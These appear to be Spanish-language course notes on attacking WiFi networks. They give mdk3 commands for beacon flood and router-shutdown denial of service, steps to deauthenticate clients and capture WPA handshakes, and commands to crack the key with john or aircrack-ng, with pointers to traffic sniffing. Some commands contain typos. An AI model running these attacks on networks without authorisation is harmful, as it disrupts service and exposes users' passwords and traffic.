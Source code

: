   - CTS Frame Attack: deja una red inoperativa para que los clientes sean deasociados y se autentiquen posteriormente (01:05-01:21)

  - Beacon Flood Mode Attack: genera muchos puntos de accesos en el mismo canal (channel) que otro objetivo dejandola invisible para otros usuarios (01:21-01:27)
    - **mkd3 wlan0mon b -c 1** en este ejemplo creamos cientos de redes de nombre aleatorio en el canal 1

  - Disassociation Amok Mode Attack (01:27-01:29)

  - Michael Shutdown Exploitation: supuestamente apaga un router (01:29-01:31)
    - **mdk3 wlan0mon m -t <mac_router>**

  ATAQUES PASIVOS (esperamos a que el cliente se reasocie).

  ANALISIS CAPTURA TRAFICO
  - Pyrit (01:35-01:44) **pyrit -r captura.cap analyze** nos parseara (filtrara) la info y nos enseñará solo la mas importante de la captura
  - tshark (01:44-01:51)

  - aircrack-ng: extraer el handshake (01:51-01:55)
    - extraer el hash desde el archivo .hccap **hccap2john captura.hccap > miHash**

  - fuerza bruta con john (01:55-01:59)
    - Capturamos **airodump-ng -c <numero_canal> -w Captura --essid <ssid> wlan0mon** y en paraleo deautenticamos **airplay -ng -0 0 -e <nombre_ssid> wlan0mon**, esperamos a que aparezca el handshake y con **pyrit -r Captura.cap analyze** vemos que tenga 1 AP y 1 handshake al menos.
    - Convertir a .hccap: **aircrack-ng -J miCaptura Captura-01.cap**, luego **hccap2john miCaptura.hccap > miHash** asi tendremos la contraseña aun cifrada en CCMP.
    - Descifrar: **john --wordlist=diccionario.txt miHash** y nos dira la contraseña

  - fuerza bruta con aircrack: es mas sencillo que john xq automatiza pasos (01:59-02:00)
    - **aircrack-ng -w diccionario.txt Captura.cap**

  - bettercap (02:03-)

  AUMENTAR VELOCIDAD COMPUTO (02:05-02:24)
    - rainbow tables con airolib-ng o genpmk (02:10)

  QUE SE PUEDE SABER SIN ESTAR CONECTADO A LA RED (02:24)
    - ver el trafico http con ettercap, drifnet e iptables (02:31)
